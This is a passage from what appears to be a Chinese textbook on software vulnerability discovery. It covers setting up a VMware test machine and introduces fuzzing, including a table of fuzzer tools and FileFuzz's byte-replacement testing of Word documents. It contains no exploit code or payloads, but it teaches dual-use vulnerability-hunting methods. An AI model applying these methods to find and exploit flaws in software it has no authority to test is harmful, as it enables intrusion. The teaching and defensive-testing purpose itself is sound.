

VMware 开始准备为新建的虚拟机选择要安装的操作系统，VMware 支持微软的 Windows 系统、Linux、Novell NetWare、Sun Solaris 等操作系统。同时，VMware 还对每一种类型的操作系统有着更加具体的支持，如图 4.4 所示。





在图 4.4 的下拉列表中选择好我们即将安装的具体操作系统版本型号后（这里选择的是微软的 Windows 2000 Professional 操作系统作为演示），如图 4.5 所示。



选择“下一步”，如图 4.6 所示。VMware 将设置虚拟机需要的文件保存位置以及新虚拟机的名字，此时要注意我们选择的虚拟机文件保存位置一定要有足够的硬盘空间，根据所安装的操作系统不同，VMware 虚拟机需要的保存空间也不一样。


图 4.6 设置虚拟系统保存路径


图 4.7 选择网络设置

像 Windows 2000 Professional 这样的系统来说，保存空间最好保持在 2G 大小。对于新虚拟机名则可以不做修改，选择“下一步”，如图 4.7 所示。这一步是比较关键的一步，因为我们建立的虚拟机往往需要和它所在的真实操作系统建立网络连接，否则我们在虚拟机上建立了一个 Web 服务器就无法通过真实系统访问它，这就失去了虚拟机存在的意义。


图 4.8 设置虚拟硬盘大小

“Use bridged networking”是让新建的虚拟机系统完全类似一个单独的主机，拥有自己独立的 IP 地址，可以像真实主机一样访问外部网络。“Use network address translation (NAT)”则是利用了网络地址转发技术；“Use host-only networking”则是只允许虚拟系统与真实主机间进行通信；“Do not use a network connection”即不使用任何网络连接。为了真实模拟 Web 服务器环境，我们最好选择第一个网络设置选项，因为 Web 服务器在网络上一般是具有独立 IP 地址的。选择好后，选择“下一步”，如图 4.8 所示。


图 4.9 准备开始安装操作系统

图 4.8 的对话框是用来设置新建虚拟机硬盘大小的。默认值是使用 8G 大小的空间，也就是 VMware 将为新建的虚拟机设置一个 8G 的虚拟硬盘空间来安装 Windows 2000 系统。如果没有特殊需要，这个默认的 8G 空间是够使用的，直接选择“完成”按钮，我们现在完成了新建虚拟机的准备工作。接下来就是开始安装 Windows 2000 系统。

选择图 4.9 中的“Edit virtual machine settings”，出现图 4.10 的新建虚拟机设置画面。在进行虚拟机设置时，我们主要对虚拟机的 CD-ROM 选项进行设置，这是因为要想给虚拟机安装操作系统，它的方法和我们平时给自己电脑安装系统的方法一样，都是采用将光盘放入光驱后重启电脑进行安装的。不过虚拟机还有一种特殊的系统安装方式……


图 4.10 虚拟机硬件设置对话框


图 4.11 设置虚拟机的光驱来源

采用操作系统光盘镜像来同样实现安装系统的目的，如图 4.11 所示。选择 CD-ROM 选项后，在设置对话框右侧的 Connection 栏目中，默认的光驱选项是“Use physical drive”，也就是传统的使用物理光驱进行系统安装。在这个选项下方的“Use ISO image”选项就是利用操作系统光盘镜像来安装，直接使用“Browse”按钮找到我们想要的操作系统光盘镜像文件（一般是 .iso 类型的文件）之后，选择好它，然后直接选择“OK”按钮保存设置。一切设置完成后，选择图 4.9 中的“Start this virtual machine”，出现如图 4.12 的画面就代表 VMware 开始安装操作系统了。

等待 VMware 操作系统安装完毕后，我们需要注意给新的虚拟机安装上 VMware Tools，只有安装了 VMware Tools 之后，我们才可以让虚拟机与真实主机进行通信。

安装 VMware Tools 的方法是选择“VM”菜单中的“Install VMware Tools”选项即可，如图 4.13 所示。

安装完 VMware Tools 后，我们再次启动虚拟机中的操作系统时，就会在其右下角出现 VMware Tools 的标志，如图 4.14 所示。


图 4.13 安装 VMware Tools


图 4.12 开始安装操作系统

这个时候，虚拟机中安装的操作系统在使用方面与真实的操作系统一样。


图 4.14 VMware Tools 安装好后的标志


图 4.16 打开真实系统中的“网上邻居”属性


图 4.15 虚拟系统安装好的界面

我们只需要设置一个 IP 地址就可以使真实主机系统与虚拟机中的操作系统进行通信了，如图 4.15 所示。

> **注意**：在配置 IP 地址时，由于我们现在的计算机是一台单独的计算机，为此，我们在设定 IP 地址时，需要使用 VMware 自带的虚拟网卡来实现虚拟机系统与真实系统的网络通信。打开真实主机中的“网上邻居”属性窗口，如图 4.16 所示。

这里，VMware 主要使用“VMware Network Adapter VMnet1”这个虚拟网卡实现虚拟系统与真实系统的网络通信。所以，我们可以配置“VMware Network Adapter VMnet1”这个虚拟网卡的 IP 地址，使得虚拟系统与真实系统的 IP 地址在一个网段内。我们可以首先配置真实系统中“VMware Network Adapter VMnet1”网卡的 IP 地址为“192.168.1.1”，如图 4.17 所示。


图 4.17 配置真实系统的 IP 地址

再到虚拟机系统中，配置 IP 地址为 192.168.1.2，如图 4.18 所示。


图 4.18 配置虚拟系统的 IP 地址

这样配置以后，真实系统就可以通过 192.168.1.2 这个 IP 地址访问到虚拟机中的操作系统了。

### 思考题

我们进行漏洞挖掘的时候，为什么必须使用虚拟机系统？

### 答案

由于漏洞挖掘的过程中，难免会造成软件发生崩溃或者系统崩溃等现象，因此，系统中的数据就会遭到破坏。为了避免我们自己的数据遭受破坏，我们就必须使用虚拟机系统来保护自己的数据。同时，有些被测试的软件属于网络软件，需要借助网络环境才能够运行，而往往我们只有一台计算机，为了能够构建网络环境，我们必须采用虚拟机系统来满足软件对网络环境的需要。最后，有一些软件安全漏洞必须建立在不同环境下才能够测试，例如跨域漏洞（关于跨域漏洞的概念和挖掘方法我们将在本书的第 11 章中为大家详细介绍），我们必须建立起不同的域环境，才能够测试跨域漏洞的发生；为此，只有使用虚拟机系统才能够很好地挖掘软件中存在的这类特殊的安全漏洞。

## 第5章 FileFuzz 的亮相

从本章开始，我们将正式进入到软件漏洞挖掘的具体实战当中，这真是一个令人兴奋的时刻，因为现在我们将真正开始自己动手挖掘软件的安全漏洞。

为了能够让读者循序渐进地学习，我们将软件漏洞挖掘技术分成了入门、进阶、高级三个部分。在这三个部分中，我们都将一直伴随着大家的学习进度，手把手带领大家实践软件漏洞挖掘技术的真谛。

不知道你是不是有过这样的经历：在某次上网聊天的时候，别人通过 QQ 传给你一个 Word 文档文件，说里面是最新的某某游戏秘籍，你十分高兴，连忙双击打开这个 Word 文档文件。可是，你发现这个 Word 文档文件似乎无法打开，刚出现一个打开画面，就不见了。于是，你询问那个网友是怎么回事，你的网友马上说：“可能给你传错了，重新再发给你一个！”，于是，你又接收到一个新的 Word 文档文件。这一次，你发现这个 Word 文档文件能够正常打开了。在接下来的几天里，你依旧上网，根本没有意识到自己计算机已经发生了细微的变化，直到有一天，你发现你的游戏账号不能登录了，甚至连 QQ 也无法登录。此刻，你可能觉得自己的计算机是中毒了，所以游戏账号等被黑客窃取了。可是，你丝毫不知道你的计算机其实是被人控制了，而你所谓的“中毒”就是因为你曾经打开过的那个 Word 文档！你一定不能想象为什么一个 Word 文档文件能够造成你的计算机“中毒”，你打开的又不是一个 exe 可执行程序。其实，问题的核心在于用来打开 Word 文档的微软 Office 程序存在安全漏洞，而 Word 文档只是利用了这个漏洞将恶意程序植入你的计算机当中，最终实现远程控制你的计算机，窃取你所有的隐私信息。

可能这样的解释，让你还是感到有些迷茫，有些不能理解，究竟是什么样的安全漏洞能够利用一个 Word 文档文件来实现木马病毒程序的传播，这些安全漏洞又究竟是怎样被发现的呢？问题的答案，其实就是本章的内容，请读者随我一起走进这种神秘的软件安全漏洞挖掘技术的第一站吧。

### 5.1 暴力化测试的艺术

#### 5.1.1 Fuzz 的由来

在软件安全漏洞挖掘领域有一种堪称经典的漏洞挖掘技术，它的名字叫做“Fuzz”。“Fuzz”这个单词的发音听起来很像是电流中的噪音。在过去，开发通信设备的人员发现在自己的设备中一直存在一种来自电流的噪音，影响着正常通信。历经千辛万苦，最后一位测试人员终于发现是由于某一个线路被误接入设备而导致了干扰的发生，随后，这种电流的噪音声就成了“Fuzz”这个单词的来源，代表着发现系统中错误的方法。

Fuzz 技术的思想就是利用“暴力”来实现对目标程序的自动化测试，然后监视检查其最后的结果，如果符合某种情况就认为程序可能存在某种漏洞或者问题。

这里的“暴力”并不是我们通常说的武力，而是利用不断地向目标程序发送或者传递不同格式的数据来测试目标程序的反应。

Fuzz 技术属于典型的黑盒测试手段，在进行 Fuzz 测试的时候，只要求你对要测试的目标程序有一个大概的认识，就可以利用 Fuzz 技术来挖掘系统中可能存在的安全漏洞。而依据 Fuzz 原理开发出来的安全测试程序被称之为“Fuzzer”。

Fuzzer 一般由于其工作范围的不同而被区分为很多类型。从 Fuzzer 挖掘漏洞的软件类型来分，它被分为文件类型 Fuzzer（专门用来挖掘文件处理类软件安全漏洞的 Fuzzer）、网络类型 Fuzzer（专门用来挖掘网络工作软件安全漏洞的 Fuzzer）、内存类型 Fuzzer（专门用来挖掘软件内部安全漏洞的 Fuzzer）等等。这里将一些有名的 Fuzzer 工具向读者做一个介绍，见表 5.1。

#### 表 5.1 常见的 Fuzzer 介绍

| Fuzzer名称 | 简介 | 网址 |
|---|---|---|
| SPIKE | SPIKE 是一款著名的网络协议 Fuzzer，它由 C++ 语言开发。 | http://www.immunitysec.com/resources-freesoftware.shtml |
| Scratch | Scratch 也是一个专门用来进行网络协议安全测试的 Fuzzer，它在测试 SSL 和 SMB 协议方面有着良好的效果。 | http://packetstormsecurity.org/UNIX/misc/scratch.rar |
| Sulley | Sulley 是一款功能比较综合的 Fuzzer，它既可以用来测试网络协议，也可以进行一些对于本地软件的安全测试。 | http://www.fuzzing.org/wp-content/SulleyFuzzingFramework.exe |
| antiparse | Antiparse 是一个用来测试网络协议和文件处理软件安全的 Fuzzer，它使用 Python 语言开发。 | http://antiparser.sourceforge.net/ |
| dfuz | dfuz 是专门用来测试远程网络协议的一个简单的 Fuzzer，它需要在 Unix 系统下使用。 | http://www.genexx.org/dfuz/ |
| General Purpose Fuzzer (GPF) | General Purpose Fuzzer（GPF）是由 C 语言开发的，利用产生随机数据包来进行网络协议测试的 Fuzzer。 | http://www.vdalabs.com/tools/cfs_gpf.html |
| FTPFuzz | FTPFuzz 是专门用来测试 FTP 软件安全的 Fuzzer（我们在本书第 2 章中提到过）。 | http://www.lhffgo.com |
| FileFuzz | FileFuzz 是专门用来进行测试文件处理软件的 Fuzzer，它的使用非常简单（我们将在本章中学习到该程序的使用）。 | http://www.idefense.com/ |
| Bf2 | Bf2 是专门用来测试浏览器软件安全的 Fuzzer，使用简单，效果明显（我们将在本书第 6 章中学习该程序的使用）。 | http://www.krakowlabs.com/dev/fuzz/bf2/bf2.pl.txt |
| COMRaider | COMRaider 是专门用来发现 ActiveX 控件安全漏洞的 Fuzzer，它的名气很大，很多著名的安全漏洞都是利用该程序发现的（我们将在本书第 9 章中专门学习它的使用）。 | http://www.idefense.com/ |

#### 5.1.2 Fuzz 技术未来的发展方向

由于 Fuzz 技术存在一定的缺陷，为此，全世界的安全研究人员也在努力改进此安全测试技术，它未来的发展方向主要有以下几个方面：

- 1. 智能化

从 Fuzz 的工作原理来看，Fuzz 技术有时是非常“笨”的，尤其是对于采用随机数据进行 Fuzz 测试。随机型 Fuzzer 就像一个不知疲倦的人，不断地给目标程序发送出这样或者那样的数据，期待有一天目标程序能够返回一个出错信息，然后由安全人员去分析这个结果，确定这个错误究竟是不是漏洞，这一切显得繁琐而又笨拙。

于是我们可以这样实现 Fuzzer：我们编写一个 Fuzzer，它首先会根据你要 Fuzzing 的不同目标而设定不同的 Fuzzing 模式，再根据你选择的目标程序对象的性质，产生一个最优组合，然后进行 Fuzzing。这个期间，Fuzzer 会判断目标程序出错时的状态，将不同错误归类，以便使用者做分析。Fuzzing 结束后，Fuzzer 记录下这次 Fuzzing 的一切过程、结果，选择出这次 Fuzzing 中哪些组合触发了漏洞，哪些没有，然后将其作为一个组合，存入数据库中，以便下一次对同类型目标程序进行 Fuzzing 时可以优先选择这个组合。

个人的思考过程，其实这就是智能化的 Fuzzer。智能化的 Fuzzer 能够将发掘漏洞中的技巧以及行为综合起来，然后进行一个测试到判断、判断再到测试的循环过程，既节省了时间，又可以提高 Fuzzing 本身的效果。

- 2. 高效化

对于 Fuzzing 这样的技术来说，效率是很重要的。我们不能让 Fuzzer 无休止地等待目标程序的反应，我们可以采用尽可能快的方式判断一次 Fuzzing 是不是成功的。这里还有个问题，就是在对 Web 应用程序进行 Fuzzing 的时候，我们是怎样进行 Fuzzing 的？一般的做法可能是这样：先找到目标程序的起始文件，如 index.asp，先分析它返回的客户端代码中有什么关键参数，把这些参数拿出来一个一个测试；同时，分析 index.asp 文件下面二级的子链接文件，然后再去分析第二个子链接文件返回的客户端代码，找出其中的关键参数，测试这些参数，接着是这个文件的子链接文件……这样一直循环下去。这样的测试方法效率低下，其实 Web 应用程序结果完全是一个我们在数据结构中学到的“树”型结构，我们可以通过使用针对“树”型结构进行快速遍历的算法，如二叉树算法，来提高 Fuzzer 程序对 Web 程序结构的分析效率；同时，我们完全可以依据分析结果进行并发式的 Fuzzing，这样一来我们的 Fuzzer 效率将大大增加，不会让我们再作永无休止的结果等待。

> 小知识：“树”结构是表示数据关系的一种方式，我们日常生活中的很多数据关系都是“树”结构。举个简单的例子，我们想要查找一个人的家谱时，将每一个人用一个圆点表示，当我们把该人的家谱关系在纸上画出的时候，你会发现这些圆点的分布就类似树枝一样，这其实就是所谓的“树”结构。而“二叉树”算法则是一种快速查找“树”结构当中某一个节点的方法，具体内容建议读者通过百度进行查询学习。

在 Fuzzing 测试的过程中，我们还要注意内存的使用，因为每一次的 Fuzzing 都意味着你要进行一次运算，你必须做好内存的释放与回收工作，不能盲目地只顾暴力测试目标程序，那样再大内存的主机都会在瞬间崩溃。

- 3. 准确化

Fuzzing 技术发展到今天，它不再简单地是一种想办法触发漏洞的工具，而是一个触发加记录判断的工具。这样我们在使用 Fuzzer 的时候，就能知道什么时候发生了什么样的漏洞触发事件。如同 AWScanner 扫描器中做的那样，AWScanner 会将目标程序所有的反馈信息都记录下来做分析，即使没有发现漏洞，我们也能够获得 Web 程序在处理数据上的细节，这对于我们后面更加强深入分析目标程序，起到了至关重要的作用。

- 4. 框架化

这是现在所有类型的 Fuzzer 发展最为明显的一个标志。WebFuzz 就实现了框架化 Fuzzer 的一个雏形。它将需要探测目标漏洞的测试脚本分类集合在不同的 txt 文件中，这样在以后，我们一旦有新的测试语句就可以加入到相应的 txt 文件中，使得以后的测试更加完善，提高漏洞的发现几率。但是，WebFuzz 不支持插件技术。拿我们常使用的 PhotoShop 这个图形编辑软件做例子，我们知道它有一个出色的功能叫做“滤镜”，当我们想要做出一些图片特效时，不同的滤镜可以帮助我们实现这些目的；如果现有的滤镜不能满足我们的需要，我们可以到网上寻找相应的滤镜插件，将它们直接放入到 PhotoShop 软件安装目录的“滤镜”文件夹，重新打开 PhotoShop 就可以直接在滤镜菜单中找到这些新的滤镜特效了。这就是插件技术的好处，PhotoShop 就像一个大的框架，我们只需要往里面加入一些小的插件，我们就能得到更多的功能，根本不需要对 PhotoShop 本身做任何大的改动。

框架化最大的好处就是极大地方便了以后的扩展，就像做插件一样，主体程序只有一个，插件却可以千千万万。

#### 5.1.3 Fuzz 技术的缺陷

听起来，Fuzz 技术是一种非常“粗俗”的漏洞挖掘技术；因为它利用不断地向目标程序发送或者传递不同格式的数据来测试目标程序的反应，这就好比我们买了一个新的电子秤，我们想要知道这个电子秤能够承受多重的重量才会出现毁坏的现象，我们就不断地给这个电子秤加砝码，直到让电子秤无法工作。虽然，我们可以这样来测试一个软件中是不是存在着某种安全漏洞，但是，如果只是简单的暴力测试，恐怕在很大程度上会出现无法发现漏洞的现象。下面举个例子来说明这种情况。

假设某一个用来接收网络数据的软件，它首先要求在系统的 C 盘下建立一个名为“ok”的文件才能够正常工作，如果我们不了解这个情况，而是直接就向软件发送网络数据，那么软件肯定不会接收。在测试完毕后，我们还以为这个软件很安全，没有出现错误，其实，软件根本就没有接收任何测试数据。

为此，在利用 Fuzz 技术来挖掘软件安全漏洞的时候，为了提高漏洞挖掘的效率，我们最好对被测试的软件有一个大致了解，在满足软件工作的必要条件下，再利用 Fuzz 技术测试，这样才能够获得较好的漏洞测试效果。

尽管 Fuzz 技术有着一定的缺陷；但是，Fuzz 技术最大的好处在于不需要非常专业的技术，利用简单的一些 Fuzz 软件就可以挖掘出软件中存在的安全漏洞，这一点，我们将在下面的学习过程中为读者展现。

### 5.2 FileFuzz 的由来

FileFuzz 是一种针对文件处理软件进行 Fuzz 安全测试的工具软件。文件处理软件是计算机应用程序中最为广泛使用的一类软件。这类软件以处理文件信息为主要功能，而由于文件类型的不同，文件处理软件又被区分为：**图文处理型软件、媒体处理型软件、其它文件处理型软件**。

其中，图文处理型软件多半用于办公业务处理方面，例如微软的 Microsoft Office，它其中包含的 Word、Excel、PowerPoint 等程序就以处理用户输入的文字、图片信息为主。

而媒体处理型软件则是以音乐视频播放软件为主，例如视频播放软件 Windows Media Player，音乐文件播放软件 Winamp 等。

其它文件处理型软件则是一些专用的文件处理软件，以处理特殊文件为主。例如压缩软件 WinRAR，它就是专门用来压缩或者解压文件的专用软件。

无论哪种类型的文件处理软件，我们都将软件处理的文件类型称作为“文档文件”。例如微软 Word 程序处理的文档文件就是 doc 类型的文件，doc 文档文件中就包含了各种各样的文字或者图片表格信息。

> **小知识：**FileFuzz 中的“File”指的就是文档文件的意思；“Fuzz”指的就是暴力测试的意思。所以 FileFuzz 合起来的意思就是对文档文件的暴力化测试。

这些文档文件在保存数据信息的时候，往往采用特殊的编码格式，这些编码格式一般都采用非文本形式，也就是说，这些文档文件保存的数据不是明文格式。以 doc 文档文件为例，如果我们利用记事本打开一个 doc 文件，你会发现它显示的全部都是乱码，如图 5.1 所示。

这种非明文形式的编码格式，其目的是确保用户只有利用与文档文件相匹配的文件处理软件，才能够正确读取到文档文件中保存的文字或者图片信息，防止数据信息被任意泄露。


图 5.1 记事本打开 doc 文件看到的都是乱码

但是，这种非明文形式的编码格式也意味着只有文件处理软件的开发者知道如何解释这些编码格式，而作为漏洞挖掘者的我们就无从知晓了。这就给我们出了一个难题：文件处理软件的漏洞往往发生在软件处理文档文件的过程当中，例如文档文件中某个地方的数据过长就可能造成软件发生溢出漏洞。我们可以通过修改文档文件的数据来测试文件处理软件是否存在安全漏洞，但是，我们却不知道文档文件的具体编码格式，如果贸然修改文档文件就会破坏文档文件编码格式，文件处理软件可能就会发现这种错误编码的文档文件，从而拒绝打开该文档文件，那么我们也就无法测试出软件处理该文档文件会不会出现安全漏洞了。


图 5.2 用 WinHex 打开 doc 文件

还好，事情并没有我们想象的那样糟糕，虽然我们不知道文档文件的具体编码格式，但是修改文档文件中的某些数据是不会造成整个文档文件不能被软件打开，一旦软件能够打开被修改的文档文件，那么漏洞就很有可能会被我们的文档文件触发到。

> **知识点：**虽然说一般的文档文件都采用非明文形式的编码格式来保存数据信息，我们无法通过记事本这样的程序来修改它们。但是利用十六进制编辑软件，我们依旧可以修改这些非明文形式的文档文件。WinHex 就是这样一款十六进制编辑软件，我们可以利用它来修改非明文形式的文档文件，如图 5.2 所示。

现在，机会是有了，但是，我们怎么知道文档文件中哪些数据被修改了不会造成软件打不开，而哪些数据又可以被修改进而触发到软件的安全漏洞？难道要我们一个一个字节去修改文档文件，然后保存、打开这样来进行测试吗？这也太辛苦、太繁琐了。

如果情况真的是这样，也许很多人早就放弃漏洞的挖掘工作了。既然是在挖掘计算机软件的安全漏洞，那么为什么不用计算机软件来实现自动化的文档文件修改和安全测试呢？于是，FileFuzz 诞生了。

我们这里向大家介绍的 FileFuzz 程序是 Windows 系统下使用的一款文件处理软件暴力化测试工具，它由著名的计算机安全公司 iDefense 开发。

FileFuzz 采用字节替换法批量生成待测试文档文件，然后将这些待测试文档文件逐一调用相对应的文件处理软件来打开，同时监视打开过程中发生的错误，并将错误结果记录下来，以便安全研究人员分析该错误是不是属于安全漏洞。它的工作原理我们可以用一张图来表示，如图 5.3 所示。


图 5.3 FileFuzz 的工作原理

> **知识点：**所谓“字节替换法”就是先利用一个正常的文档文件作为模板，用二进制模式打开该文档文件，替换其中某一个或者几个字节的数据为测试数据（如 FF 或者 FFFF、FFFFFFFF 等）。每替换一次，就保存被修改文档文件为一个待测试文档文件。之所以采用二进制模式打开文档文件，是因为所有的文档文件在磁盘上其实都是采用二进制格式保存的，无论是非明文的编码格式，还是明文的编码格式。由于很多文档文件都采用非明文的编码格式，利用文本文件根本无法正确显示文档文件中的数据信息。为此，我们可以采用二进制模式打开这些非明文编码格式的文档文件，然后针对其中每一个字节的数据进行修改测试。前面说到的十六进制编辑软件其实也是利用这个原理来打开非明文编码格式的文档文件，只不过是将二进制数据利用十六进制显示给我们，以便我们修改而已。

下面我们结合 FileFuzz 程序的具体操作过程，来带领读者更加深入地理解利用 FileFuzz 程序进行漏洞挖掘的核心思想。

### 5.3 FileFuzz 的使用

FileFuzz 程序的使用具体来说是分为四个步骤，为了便于读者理解，我们以测试微软的 Microsoft Office Word 这个文字处理型软件为例，依次逐个介绍这四个步骤的操作方法与基本原理。

还是先介绍一下软件环境：

- 操作系统：Windows XP SP2 32 位版本
- 工具运行环境：Microsoft .NET Framework 2.0
- 漏洞挖掘软件：FileFuzz
- 漏洞测试目标软件：Microsoft Office Word 2003 SP2（11.5604.8107）以上版本
- 辅助工具：WinHex 11.15

#### 5.3.1 初始化 FileFuzz 程序

第一步：设定模板文档文件，配置 FileFuzz 程序。

由于我们要对微软的 Microsoft Office Word 这个文字处理型软件进行漏洞挖掘，而微软的 Microsoft Office Word 这个文字处理型软件对应的文档文件格式为 doc 文件。为此，我们首先需要生成一个正常的 doc 文件作为 FileFuzz 程序的模板文档文件。

